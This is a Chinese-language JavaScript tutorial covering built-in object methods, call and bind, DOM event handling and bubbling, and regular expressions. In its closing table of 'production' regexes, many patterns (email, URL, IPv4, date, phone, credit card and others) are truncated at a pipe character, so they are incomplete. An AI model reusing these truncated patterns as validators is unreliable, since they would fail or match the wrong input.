- `Object.keys(obj)` - 返回对象可枚举属性
- `Object.values(obj)` - 返回对象可枚举属性值
- `Object.entries(obj)` - 返回键值对数组（返回的是一个数组，并且数组中每一个元素又是一个数组，该数组中第一个元素存储 key，第二个元素存储 value）
- `Object.freeze(obj)` - 冻结对象（确保对象不会被意外更改，特别适用于配置对象、常量或共享数据），例如以下代码就是创建一个真正的常量：

```javascript
const constants = Object.freeze({
    PI: 3.1415926,
    MAX_USER: 1000
})
console.log(constants.PI, constants.MAX_USER);
```

- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Object.defineProperty(obj, prop, descriptor)</font>**` - 在对象上定义新属性或修改现有属性【现代开发中 `<font style="color:rgb(64, 64, 64);">Proxy</font>` 也能实现这个功能】

```javascript
// 类的定义
class User {
    constructor(age){
        this._age = age;
    }
}

// 创建对象
let user = new User(20);

// 给user对象添加age属性，并且设置当读取该属性的值和修改该属性的值时添加拦截规则
// 当然，如果user对象本身已经存在age属性，以下代码则是对age属性进行修改而非添加
Object.defineProperty(user, 'age', {
    get(){
        console.log('读取属性age的值');
        return this._age;
    },
    set(newValue){
        console.log('修改属性age的值');
        this._age = newValue;
    }
});

// 读取user对象age属性的值
console.log(`年龄=${user.age}`);
// 修改user对象age属性的值
user.age = 30;
// 读取user对象age属性的值
console.log(`年龄=${user.age}`);
```

- `Object.hasOwn(obj, prop)` - 判断对象 obj 中是否存在 prop 属性。替代 `obj.hasOwnProperty` (ES2022)

## Array对象及常用方法

- `push(element)` / `pop()` - 末尾添加/删除元素
- `unshift(element1,element2,element3,...)` / `shift()` - 开头添加/删除元素
- `join(**<font style="color:rgb(64, 64, 64);">connOperatorStr</font>**)` - 数组转字符串
- `includes(element, fromIndex)` - 是否包含某元素
- `toReversed()` - 返回反转后的**新数组** (ES2023)
- `toSorted()` - 返回排序后的**新数组** (ES2023)
- `slice(startIndex, endIndex)` - 返回子数组（包含 startIndex，不包含 endIndex）
- `splice(startIndex, deleteCount, replaceElement, replaceElement, ..., addElement, addElement, ...)` - 删除/替换/添加元素

```javascript
// 从起始下标位置开始删除
const arr = [10,20,30,40,50,60];
arr.splice(2);
console.log(arr); // [10, 20]

// 从起始下标位置开始删除，指定删除个数
const arr = [10,20,30,40,50,60];
arr.splice(2, 3);
console.log(arr); // [10, 20, 60]

// 从起始下标位置开始删除，指定删除个数，并且指定被删除元素的位置用哪些元素替换
const arr = [10,20,30,40,50,60];
arr.splice(2, 3, 0, 0);
console.log(arr); // [10, 20, 0, 0, 60]

// 从起始下标位置开始删除，指定删除个数，并且指定被删除元素的位置用哪些元素替换，如果替换的元素个数超过删除元素的个数时，将被当做新元素添加
const arr = [10,20,30,40,50,60];
arr.splice(2, 3, 0, 0, 100, 200);
console.log(arr); // [10, 20, 0, 0, 100, 200, 60]
```

- `map()` - 映射数组（返回一个新数组对象）

```javascript
const arr = [10,20,30,40,50,60];
const newArr = arr.map((element) => {
    return element /= 10;
})
console.log(newArr); // [1, 2, 3, 4, 5, 6]
```

- `filter()` - 过滤数组（返回一个新数组对象）

```javascript
const arr = [10,20,30,40,50,60];
const newArr = arr.filter((element)=>{
    return element > 30;
});
console.log(newArr); // [40, 50, 60]
```

- `find()` / `findIndex()` - 查找元素（**返回第一个匹配的元素/元素下标**）

```javascript
const arr = [11,21,62,40,50,60];
const findElt = arr.find((element)=>{
    return element % 2 == 0;
});
console.log(findElt); // 62
findEltIndex = arr.findIndex((element)=>{
    return element % 10 == 0;
})
console.log(findEltIndex); // 3
```

- `some()`- 查看数组中是否包含满足某个条件的元素。如果包含返回 true，如果不包含返回 false。

```javascript
const arr = [11,21,62,40,50,60];
const contains = arr.some((element)=>{
    return element % 10 == 0;
});
console.log(contains); // true
```

- `every()`- 查看数组中每一个元素是否满足某个条件。如果都满足返回 true，否则返回 false。

```javascript
const arr = [10,20,30,40,50,60];
const contains = arr.every((element)=>{
    return element % 10 == 0;
});
console.log(contains); // true
```

- `reduce()` - 累加器

```javascript
const arr = [1, 2, 3, 4, 5, 6];
// acc 是每一次累加之后的结果，curr从第二个元素开始。
const result = arr.reduce((acc,curr)=>{
    return acc + curr;
});
console.log(result);
```

- `forEach()`- 遍历数组

```javascript
const arr = [1, 2, 3, 4, 5, 6];
arr.forEach((item, index) => {
    console.log(item,index);
});
```

## String对象及常用方法

- `includes(subStr, fromIndex)` - 是否包含子字符串
- `startsWith(startStr)` / `endsWith(endStr)` - 是否以某字符串开头/结尾
- `substring(startIndex, endIndex)` / `slice(startIndex, endIndex)` - 提取子字符串（包含 startIndex，不包含 endIndex）
- `_<font style="color:#8A8F8D;">substr()</font>_`* (已废弃) - 提取子字符串*
- `split(separator)` - 分割字符串
- `toUpperCase()` / `toLowerCase()` - 大小写转换
- `trim()` / `trimStart()` / `trimEnd()` - 去除空格
- `replace(replaceStr)`- 如果第一个参数不是正则表达式的话，只替换第一个
- `replaceAll(replaceStr)` - 替换所有（ES2021+）

## Number常用方法

- `toFixed()` - 保留小数位数

```javascript
console.log(123.456.toFixed(1)); // 123.5
```

- `Number.isNaN(value)` - 这个 value 是否是数值类型的 NaN，只有 value 是数值类型的 NaN 时，结果才是 true，其它情况一律 false。

## Math常用方法

- `Math.abs(-1)` - 绝对值
- `Math.ceil(1.1)` / `Math.floor(1.9)` / `Math.round(1.9)` - 取整
- `Math.max(1,2,3)` / `Math.min(1,2,3)` - 最大/最小值
- `random()` - 生成 [0-1) 的随机数
- `Math.sqrt(16)` - 平方根
- `Math.pow(2, 3)` - 幂运算

## Date对象及常用方法

- `new Date()` - 创建日期对象
- `getFullYear()` / `getMonth()` / `getDate()` - 获取年月日
- `getHours()` / `getMinutes()` / `getSeconds()` - 获取时分秒
- `getTime()` - 时间戳。`Date.now()`也可以。
- `getDay()` - 星期几
- `toISOString()` - 转ISO格式字符串
- `toLocaleString()` - 本地化字符串
- `setFullYear()` / `setMonth()` / `setDate()` - 设置年月日
- `setHours()` / `setMinutes()` / `setSeconds()` - 设置时分秒

## Map对象及常用方法

- `new Map()`- 创建 Map 集合
- `set(k, v)` / `get(k)` - 设置/获取值
- `has(k)` - 检查键是否存在
- `delete(k)` - 删除键值对
- `clear()` - 清空Map
- `size` - 键值对数量（不是 size()方法，是 size 属性。）

## Set对象及常用方法

- `new Set()`- 创建 Set 集合
- `add(value)` - 添加值
- `has(value)` - 检查值是否存在
- `delete(value)` - 删除值
- `clear()` - 清空Set
- `size` - 元素数量（是属性 size，不是方法）

## Function对象及常用方法

| **方法** | **执行时机** | **参数传递方式** | **返回值** | **是否立即调用函数** |
| --- | --- | --- | --- | --- |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">call</font>**` | 立即调用 | 参数逐个列出 (`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arg1, arg2</font>**`) | 函数执行结果 | 是 |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">apply</font>**` | 立即调用 | 参数作为数组传递 (`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">[args]</font>**`) | 函数执行结果 | 是 |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">bind</font>**` | 不立即调用 | 参数逐个列出 (`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">arg1, arg2</font>**`) | 返回绑定后的新函数 | 否 |

### call

**作用**：
`call()` 立即调用函数，并**临时改变函数内部的 `**<font style="color:#DF2A3F;">this</font>**` 指向（具体指向谁，主要看 call 方法的第一个参数传谁，传张三，函数内部的 this 就是张三。）**，还可以传递参数（逗号分隔）。

**实际用途**：

- 借用其他对象的方法（如数组方法操作类数组对象）。
- 明确指定 `this` 的上下文（如调用构造函数继承父类属性）。

示例 1：借用数组方法操作类数组对象

```javascript
// 类数组对象（如 arguments）没有数组的 push 方法
function example() {
  const arrLike = arguments;
  Array.prototype.push.call(arrLike, 4); // 借用数组的 push 方法
  console.log(arrLike); // 输出: [1, 2, 3, 4]
}
example(1, 2, 3);
```

示例 2：明确指定 `this` 上下文

```javascript
const user = {
    username: 'jackson',
    age: 30,
    printInfo(){
        console.log(`username:${this.username},age:${this.age}`);
    }
};

const anotherUser = {
    username: 'lucy',
    age: 20
};

user.printInfo.call(anotherUser);
```

### bind

**用 **`bind`** 优化函数的两种场景**：

1. **永久固定**** **`this`：防止函数内部的 `this` 乱跑。
2. **固定参数**：减少重复传相同的值。

场景：一个“发送日志”的函数，需要固定绑定到 `logger` 对象，且日志级别永远是 `"INFO"`。

```javascript
// 场景1: 对象方法中的this丢失问题
const person = {
  name: "Alice",
  greet: function () {
    return `Hello, I'm ${this.name}`;
  },
};

// 直接调用 - this正确指向person
console.log("场景1 - 直接调用:", person.greet());

// 方法提取后调用 - this丢失
const greetFunc = person.greet;
console.log("场景1 - 提取后调用:", greetFunc()); // Hello, I'm undefined

// 使用bind固定this
const boundGreet = person.greet.bind(person);
console.log("场景1 - 使用bind:", boundGreet());

// 场景2: 回调函数中的this
const timer = {
  count: 0,
  start: function () {
    // 不使用bind - this会丢失
    setTimeout(function () {
      console.log("场景2 - 不使用bind:", this.count); // undefined
    }, 100);

    // 使用bind固定this
    setTimeout(
      function () {
        console.log("场景2 - 使用bind:", this.count); // 0
      }.bind(this),
      200
    );
  },
};
timer.start();

// 场景3: 函数柯里化（预设参数）
function multiply(a, b) {
  return a * b;
}

// 使用bind预设第一个参数
const double = multiply.bind(null, 2); // 调用multiply不需要对象，因此第一个参数null
console.log("场景3 - 柯里化:", double(5)); // 10
console.log("场景3 - 柯里化:", double(7)); // 14

// 另一个函数柯里化的例子（预设参数）
const logger = {
  name: "MyLogger",
  log(level, message) {
    console.log(`[${this.name}] [${level}] ${message}`);
  },
};
// 没有使用bind()进行优化前：每一次都要传'INFO'
logger.log("INFO", "用户登录");
logger.log("INFO", "数据加载");
// 返回一个新的函数：logInfo()
const logInfo = logger.log.bind(logger, "INFO");
// 调用新的函数
logInfo("用户登录");
logInfo("数据加载");
```

# JavaScript事件


## 事件列表

以下是 JavaScript 中常用的各类事件分类列表：

| **事件类型** | **事件名称** | **触发条件** |
| --- | --- | --- |
| **鼠标事件** | `click` | 点击元素（按下并释放鼠标按钮） |
|   | `dblclick` | 双击元素 |
|   | `mousedown` | 鼠标按钮按下 |
|   | `mouseup` | 鼠标按钮释放 |
|   | `mousemove` | 鼠标在元素上移动 |
|   | `mouseover` | 鼠标进入元素（会冒泡） |
|   | `mouseout` | 鼠标离开元素（会冒泡） |
|   | `mouseenter` | 鼠标进入元素（不冒泡） |
|   | `mouseleave` | 鼠标离开元素（不冒泡） |
|   | `contextmenu` | 右键点击（弹出上下文菜单） |
| **键盘事件** | `keydown` | 键盘按键按下 |
|   | `keyup` | 键盘按键释放 |
|   | `keypress` | 按键按下并产生字符（**已废弃**） |
| **表单事件** | `submit` | 表单提交 |
|   | `reset` | 表单重置 |
|   | `change` | 表单元素值改变（失去焦点后触发） |
|   | `input` | 输入值实时变化 |
|   | `focus` | 元素获得焦点 |
|   | `blur` | 元素失去焦点 |
|   | `select` | 文本被选中 |
| **窗口事件** | `load` | 页面或资源加载完成 |
|   | `DOMContentLoaded` | DOM 加载完成（不等待图片等资源） |
|   | `resize` | 窗口大小改变 |
|   | `scroll` | 滚动事件 |
|   | `unload` | 页面卸载（即将离开） |
|   | `beforeunload` | 页面即将卸载，可提示用户是否离开 |
| **触摸事件（移动端）** | `touchstart` | 手指触摸屏幕 |
|   | `touchmove` | 手指在屏幕上滑动 |
|   | `touchend` | 手指离开屏幕 |
|   | `touchcancel` | 触摸被中断（如来电） |
| **拖放事件** | `drag` | 元素被拖动 |
|   | `dragstart` | 拖动开始 |
|   | `dragend` | 拖动结束 |
|   | `dragenter` | 拖动元素进入目标 |
|   | `dragover` | 拖动元素在目标上移动 |
|   | `dragleave` | 拖动元素离开目标 |
|   | `drop` | 拖动元素在目标上释放 |
| **媒体事件** | `play` | 媒体开始播放 |
|   | `pause` | 媒体暂停 |
|   | `ended` | 媒体播放结束 |
|   | `volumechange` | 音量改变 |
|   | `timeupdate` | 播放位置改变 |
| **剪贴板事件** | `copy` | 复制操作 |
|   | `cut` | 剪切操作 |
|   | `paste` | 粘贴操作 |
| **其他事件** | `error` | 加载资源失败 |
|   | `online` | 浏览器联网 |
|   | `offline` | 浏览器断网 |
|   | `transitionend` | CSS 过渡结束 |
|   | `animationstart` | CSS 动画开始 |
|   | `animationend` | CSS 动画结束 |
|   | `animationiteration` | CSS 动画重复执行 |

## 事件绑定

在 JavaScript 中，有多种方式可以为 DOM 元素绑定事件处理程序。以下是所有主要的事件绑定方式：

1. HTML 内联事件属性
2. DOM 属性事件处理器
3. addEventListener() 方法

### HTML 内联事件属性

```html
<button onclick="handleClick()">点击我</button>
<script>
  function handleClick() {
    console.log('按钮被点击了');
  }
</script>
```

### DOM 属性事件处理器

```html
<button id='myButton'>点击我</button>
<script>
  const btn = document.getElementById('myButton');
  btn.onclick = function() {
    console.log('按钮被点击了');
  };
</script>
```

### addEventListener()方法

```html
<button id='myButton'>点击我</button>
<script>
    const btn = document.getElementById('myButton');
    btn.addEventListener('click', function(){
        console.log('按钮被点击了');
    });
</script>
```

## DOM 元素加载完毕

实际开发中，为了保证为 DOM 元素成功绑定事件，通常在 DOM 元素全部加载完毕后，执行绑定代码。在 JS 中 DOM 元素加载完毕的事件包括：

1. load：页面或资源加载完成
2. DOMContentLoaded：DOM 加载完成（不等待图片等资源），现代开发中推荐使用它。load 作为了解。

### window.onload

```html
<button id='myButton'>点击我</button>
<script>
    window.onload = function(){
        const btn = document.getElementById('myButton');
        btn.addEventListener('click', function(){
            console.log('按钮被点击了');
        });
    }
</script>
```

### DOMContentLoaded

```html
<button id='myButton'>点击我</button>
<script>
    document.addEventListener('DOMContentLoaded', function(){
        const btn = document.getElementById('myButton');
        btn.addEventListener('click', function(){
            console.log('按钮被点击了!!');
        });
    });
</script>
```

## 回调函数的 event 参数

为 DOM 元素绑定事件时一般都会有一个回调函数，当个回调函数被调用时会自动传递过来一个 event 对象，这个 event 对象代表了刚发生的这个事件。`event.target`属性可以获取到发生事件的 DOM 元素。

```html
<button id='myButton'>点击我</button>
<script>
    document.addEventListener('DOMContentLoaded', function(){
        const btn = document.getElementById('myButton');
        // 注意：在非严格模式下，可以直接使用 event，浏览器会自动将其作为全局变量。(建议函数的参数写上event，这样在严格模式下不会报错。)
        btn.addEventListener('click', function(event){
            console.log(`${event.target.innerText}：按钮被点击了!!`);
        });
    });
</script>
```

## 事件冒泡机制

事件冒泡(Event Bubbling)是DOM事件传播的一个重要机制，理解它对于处理网页交互至关重要。

### 什么是事件冒泡

事件冒泡是指当一个事件发生在某个DOM元素上时，该事件会从最内层的目标元素开始，然后逐级向上传播到DOM树的更高层级节点，直到到达document对象。

### 事件传播的三个阶段

1. **捕获阶段(Capture Phase)**: 事件从window向下传播到目标元素（从外到内的过程）
2. **目标阶段(Target Phase)**: 事件到达目标元素
3. **冒泡阶段(Bubble Phase)**: 事件从目标元素向上冒泡（从内到外的过程）

### 冒泡示例

```html
<div id="grandparent">
  <div id="parent">
    <div id="child">点击我</div>
  </div>
</div>
<script>
  // 末尾添加true参数就表示该事件是捕获阶段。
  document.getElementById("grandparent").addEventListener(
    "click",
    function () {
      console.log("捕获阶段：Grandparent clicked");
    },
    true
  );

  document.getElementById("parent").addEventListener(
    "click",
    function () {
      console.log("捕获阶段：Parent clicked");
    },
    true
  );

  document.getElementById("child").addEventListener(
    "click",
    function () {
      console.log("捕获阶段：Child clicked");
    },
    true
  );

  // 末尾去掉true参数就表示该事件是冒泡阶段。
  document.getElementById("grandparent").addEventListener("click", function () {
    console.log("冒泡阶段：Grandparent clicked");
  });

  document.getElementById("parent").addEventListener("click", function () {
    console.log("冒泡阶段：Parent clicked");
  });

  document.getElementById("child").addEventListener("click", function () {
    console.log("冒泡阶段：Child clicked");
  });
</script>
```

点击"点击我"时，控制台会输出:



### 阻止事件冒泡

可以使用`event.stopPropagation()`方法阻止事件继续冒泡:（其实就是阻止事件继续传播，既可以阻止捕获阶段，又可以阻止冒泡阶段。）

```javascript
document.getElementById('parent').addEventListener('click', function(event) {
  console.log('Parent clicked');
  event.stopPropagation(); // 阻止事件继续向上冒泡
});
```

### 事件委托

利用冒泡机制可以实现事件委托(Event Delegation)，将事件处理程序绑定到父元素而非每个子元素（**绑定到父元素上，就等于是给它的子孙都绑定了该事件**）:

```html
<ul id="myList">
  <li>项目1</li>
  <li>项目2</li>
  <li>项目3</li>
</ul>
<script>
  document.getElementById('myList').addEventListener('click', function(event) {
    if(event.target.tagName === 'LI') {
      console.log('点击了:', event.target.textContent);
    }
  });
</script>
```

以上代码也可以这样写：

```html
    <ul id="myList">
        <li class="myItem">项目1</li>
        <li class="myItem">项目2</li>
        <li class="myItem">项目3</li>
    </ul>

    <script>
        document.getElementById('myList').addEventListener('click', function(event) {
            if(event.target.matches('.myItem')) {
                console.log('点击了:', event.target.textContent);
            }
        });
    </script>
```

**matches 方法：原生 DOM 方法，用于检查元素是否匹配指定的 CSS 选择器**

### 注意事项

1. 不是所有事件都会冒泡，如`focus`、`blur`、`load`等事件不会冒泡
2. 可以使用`event.bubbles`属性检查事件是否会冒泡
3. `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">event.target</font>` 始终指向**最初触发事件**的元素
4. `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">event.currentTarget</font>` 指向**当前正在处理事件**的元素（与 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">this</font>` 相同）

## 移除事件监听

1. 对于 addEventListener() 添加的监听器

```html
<button id="btn">click me</button>
<button id="removeBtn">remove click</button>

<script>
  document.addEventListener('DOMContentLoaded', function(){
    const btn = document.getElementById('btn');
    const handler = function(){
      console.log('click me!!!!');
    }
    btn.addEventListener('click', handler);
    const removeBtn = document.getElementById('removeBtn');
    removeBtn.addEventListener('click', function(){
      btn.removeEventListener('click', handler);
    });
  });
</script>
```

1. 对于 DOM 属性方式

```html
<button id="btn">click me</button>
<button id="removeBtn">remove click</button>

<script>
  document.addEventListener('DOMContentLoaded', function(){
    const btn = document.getElementById('btn');
    const handler = function(){
      console.log('click me!!!!');
    }
    btn.onclick = handler;
    const removeBtn = document.getElementById('removeBtn');
    removeBtn.addEventListener('click', function(){
      btn.onclick = null;
    });
  });
</script>
```

## 阻止事件默认行为

### 超链接被点击的默认行为

当点击超链接的时候，首先会触发超链接的鼠标单击事件，当超链接的 click 事件发生后，浏览器会有默认行为：向 web 服务器发送请求。如果你想阻止浏览器的这个默认行为可以调用：`event.preventDefault();`

```html
<a href="https://www.baidu.com" id="goBaiDu">百度</a>
<script>
  const goBaiDu = document.getElementById('goBaiDu');
  goBaiDu.addEventListener('click', function(event){
    console.log(`${event.target.textContent}被点击了`);
    // 事件可以正常发生，但只要执行以下代码，浏览器的默认行为就会被阻止
    event.preventDefault();
  });
</script>
```

### 点击表单提交按钮时的默认行为

当点击表单的提交按钮时，首先会触发表单的 submit 事件，当事件发生之后，浏览器会有默认行为：向 web 服务器提交表单数据并发送请求。如果你想阻止浏览器的这个默认行为可以调用：`event.preventDefault();`

```html
<form action="http://localhost:80/login" method="get" id="userForm">
    用户名：<input type="text" name="username" required><br>
    密码：<input type="password" name="password" required><br>
    <button>登录</button>
</form>

<script>
    const userForm = document.getElementById('userForm');
    userForm.addEventListener('submit', function(event){
        console.log('表单提交事件发生了');
        event.preventDefault();
    });
</script>
```

### 点击复选框时的默认行为

用户点击复选框时发生 click 事件，浏览器的默认行为是：当复选框上发生 click 事件时，复选框将显示对钩。当然，你也可以阻止这个默认行为。

```html
<input type="checkbox">

<script>
    const checkElt = document.querySelector('input');
    checkElt.addEventListener('click', function(event){
        console.log('复选框的click事件发生！');
        event.preventDefault();
    });
</script>
```

### 网页上点击右键时的默认行为

用户在网页上点击鼠标右键的时候会弹出一个菜单，这也是一种默认行为，想要阻止弹出菜单也是可以的。

```html
<script>
    document.addEventListener('contextmenu', function(event){
        console.log('用户在网页上点击了鼠标右键');
        event.preventDefault();
    });
</script>
```

### 默认行为总结

在 JavaScript 中，许多 HTML 元素和事件都有默认行为（Default Behavior），即浏览器内置的、无需开发者手动实现的交互逻辑。以下是常见的具有默认行为的元素和事件分类：

| **元素/事件** | **默认行为** | **如何阻止？** |
| --- | --- | --- |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);"><a></font>**`**点击** | 跳转到 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">href</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);"><form></font>**`**提交** | 发送数据并刷新页面 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| **右键菜单** | 显示浏览器默认菜单 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| **拖拽图片/链接** | 显示拖拽预览 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| **键盘回车** | 触发表单提交 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| **鼠标滚轮** | 滚动页面 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |
| **文本选择** | 选中文本 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">e.preventDefault()</font>**` |

## 事件触发

除了用户的操作行为之外，如果通过代码触发事件，通常包括以下两种方式：

### 手动调用事件方法

```html
<button id="btn">click me</button>
<script>
  document.addEventListener('DOMContentLoaded', function(){
    const btn = document.getElementById('btn');
    btn.addEventListener('click', function(){
      console.log('click me!!!!!');
    });
    // 让事件发生
    btn.click();
  });
</script>
```

**调用 DOM 的固有方法触发事件的同时会执行浏览器的默认行为。**

### 使用 dispatchEvent 派发事件

这是最标准的方式，也是现代开发中推荐的。因为这种方式可以更加精确的控制事件。

`**<font style="color:#DF2A3F;background-color:rgb(236, 236, 236);">dispatchEvent()</font>**`** 只会触发事件监听器，但不会执行与事件关联的浏览器默认行为**。

#### 派发事件

```javascript
<button id="btn">click me</button>
<script>
    const btn = document.getElementById('btn');
    // 注册绑定事件
    btn.addEventListener('click', function(){
        console.log('click me!!!');
    });
    
    // 创建事件对象
    const clickEvent = new Event('click', {
        bubbles: true,  // 事件是否冒泡
        cancelable: true // 事件能否被取消
    });
    // 派发事件
    btn.dispatchEvent(clickEvent);
</script>
```

#### 派发自定义事件

```html
<button id="btn">click me</button>
<script>
  const btn = document.getElementById("btn");
  btn.addEventListener("myEvent", function (event) {
    console.log(event.detail.message);
  });

  // 创建自定义的事件对象
  const myEvent = new CustomEvent("myEvent", {
    bubbles: true, // 事件是否冒泡
    cancelable: true, // 事件能否被取消
    detail: {
      message: "这是一个自定义的事件",
    },
  });
  // 派发事件
  btn.dispatchEvent(myEvent);
</script>
```

注意：

1. CustomEvent 直接继承自 Event（浏览器内部实现，无需开发者手动继承）
2. CustomEvent 拥有 Event 的所有特性，并扩展了 detail 属性，用于传递自定义数据（普通 Event 没有此属性）。
3. 兼容 Event 的所有配置，支持 bubbles、cancelable 等标准事件选项

### 值得注意的特殊情况

`form.submit()`：只提交表单，不触发表单的 submit 事件。

```html
<form action="http://localhost:80/save" method="get">
    用户名：<input type="text" name="username" value="jack">
</form>
<script>
    // 给form表单绑定submit事件
    const userForm = document.querySelector('form');
    userForm.addEventListener('submit', function(){
        alert('表单提交事件发生了');
    });
    // 调用方法提交表单，测试form表单的submit事件是否发生
    userForm.submit();
</script>
```

`dispatchEvent(new Event('submit'))`：只触发 submit 事件，不会提交表单。

```html
<form action="http://localhost:80/save" method="get">
    用户名：<input type="text" name="username" value="jack">
</form>
<script>
    // 给form表单绑定submit事件
    const userForm = document.querySelector('form');
    userForm.addEventListener('submit', function(){
        alert('表单提交事件发生了');
        // 这种方式是推荐的，当表单验证合法的时候再提交表单
        // if(validateForm()){
          // userForm.submit();
        // }
    });
    // 让submit事件发生，但是要看一下表单是否会提交
    userForm.dispatchEvent(new Event('submit'));
</script>
```

`form.requestSubmit()`：既触发表单的 submit 事件，又提交表单。

```html
<form action="http://localhost:80/save" method="get">
    用户名：<input type="text" name="username" value="jack">
</form>
<script>
    // 给form表单绑定submit事件
    const userForm = document.querySelector('form');
    userForm.addEventListener('submit', function(){
        alert('表单提交事件发生了');
    });
    // 触发submit事件，并且提交表单
    userForm.requestSubmit();
</script>
```

# JavaScript使用正则表达式


## 正则表达式概述

正则表达式（Regular Expression，简称 regex 或 regexp）是一种用于描述字符串模式的特殊语法。它由一系列字符和特殊符号构成，用于定义搜索模式，主要用于字符串的匹配、查找、替换和分割等操作。正则表达式提供了一种灵活、高效的方式来处理文本数据。

正则表达式从 1950 年代理论起源（Kleene），到 1960-70 年代 Unix 工具（grep）首次应用，再到 1980-90 年代 Perl 扩展普及，最终成为 现代编程语言和工具的标准功能，广泛应用于文本处理、数据验证等领域。

正则表达式主要用于 文本搜索替换、数据验证、日志分析、网络爬虫、编译器设计 和 生物信息学 等领域的模式匹配与处理。

## 正则表达式语法

### 元字符

| **.** | 匹配除换行符以外的任意字符 |
| --- | --- |
| **\w** | 匹配字母或数字或下划线或汉字 |
| **\s** | 匹配任意的空白符 |
| **\d** | 匹配数字 |
| **\b** | 匹配单词的开始或结束 |
| **^** | 匹配字符串的开始 |
| **$** | 匹配字符串的结束 |

### 字符转义

正则表达式中使用 `\`完成字符转义。例如：`\.`表示普通的 `.`字符。

### 重复次数

| ***** | 0 到 n 次 |
| --- | --- |
| **+** | 1 到 n 次 |
| **?** | 0 或 1 次 |
| **{n}** | n 次 |
| **{n,}** | n+次 |
| **{n,m}** | n 到 m 次 |

### 字符类

| **[a-z]** | a 到 z 这 26 个英文字母当中的任意 1 个 |
| --- | --- |
| **[0-9]** | 0 到 9 这 10 个数字当中的任意 1 个 |
| **[a-zA-Z0-9]** | a 到 z，A 到 Z，0 到 9 当中的任意 1 个 |
| **[abcde]** | abcde 这 5 个字符当中的任意 1 个 |
| **[a-z-]** | a 到 z 再加-，这 27 个字符当中的任意 1 个 |

### 分支条件

0\d{2}-\d{8}**|**0\d{3}-\d{7}

这个表达式能匹配两种以连字号分隔的电话号码：一种是三位区号，8位本地号(如010-12345678)，一种是4位区号，7位本地号(0376-2233445)。

### 分组

**(**\d{1,3}.**)**{3}\d{1,3}

一个简单的IP地址匹配表达式

### 反义

| **\W** | 匹配任意不是字母，数字，下划线，汉字的字符 |
| --- | --- |
| **\S** | 匹配任意不是空白符的字符 |
| **\D** | 匹配任意非数字的字符 |
| **\B** | 匹配不是单词开头或结束的位置 |
| **[^x]** | 匹配除了x以外的任意字符 |
| **[^aeiou]** | 匹配除了aeiou这几个字母以外的任意字符 |

## 常用的正则表达式

以下适用于生产环境下的常用正则表达式，大家在实际开发中也可以让 AI 帮助生成：

| **类别** | **用途** | **正则表达式** |
| --- | --- | --- |
| **基础验证** | 邮箱验证 | /^[a-zA-Z0-9.!#$%&'*+/=?^_`{ |
|   | 强密码（8+字符，含大小写字母和数字） | `^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)[a-zA-Z\d]{8,}$` |
|   | 强密码（8+字符，含大小写字母、数字和特殊字符） | `^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]{8,}$` |
| **数字验证** | 整数（允许正负） | `^-?\d+$` |
|   | 正整数（不含0） | `^[1-9]\d*$` |
|   | 非负整数（含0） | `^\d+$` |
|   | 浮点数（允许正负） | `^-?\d+(?:\.\d+)?$` |
|   | 货币格式（美元） | `^\$?\d+(?:,\d{3})*(?:\.\d{2})?$` |
| **日期时间** | ISO 8601日期（YYYY-MM-DD） | `^\d{4}-(0[1-9] |
|   | 24小时制时间（HH:MM） | `^(?:[01]\d |
|   | 12小时制时间（HH:MM AM/PM） | `^(0?[1-9] |
| **网络相关** | URL验证 | `^(https? |
|   | IPv4地址 | `^(?:(?:25[0-5] |
|   | IPv6地址 | `^(([0-9a-fA-F]{1,4}:){7,7}[0-9a-fA-F]{1,4} |
|   | MAC地址 | `^(?:[0-9A-Fa-f]{2}[:-]){5}(?:[0-9A-Fa-f]{2})$` |
| **身份验证** | 中国大陆手机号 | `^(?:(?:+ |
|   | 中国大陆身份证号（18位） | `^[1-9]\d{5}(?:19 |
|   | 中国大陆邮政编码 | `^[1-9]\d{5}$` |
| **特殊格式** | 十六进制颜色代码 | `^#([A-Fa-f0-9]{6} |
|   | Base64编码 | `^(?:[A-Za-z0-9+/]{4})*(?:[A-Za-z0-9+/]{2}== |
|   | GUID/UUID | `^[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[1-5][0-9a-fA-F]{3}-[89abAB][0-9a-fA-F]{3}-[0-9a-fA-F]{12}$` |
| **业务相关** | 信用卡号（Visa/MasterCard等） | `^(?:4[0-9]{12}(?:[0-9]{3})? |
|   | 车牌号（中国大陆） | `^[京津沪渝冀豫云辽黑湘皖鲁新苏浙赣鄂桂甘晋蒙陕吉闽贵粤青藏川宁琼使领][A-HJ-NP-Z][A-HJ-NP-Z0-9]{4,5}[A-HJ-NP-Z0-9挂学警港澳]$` |
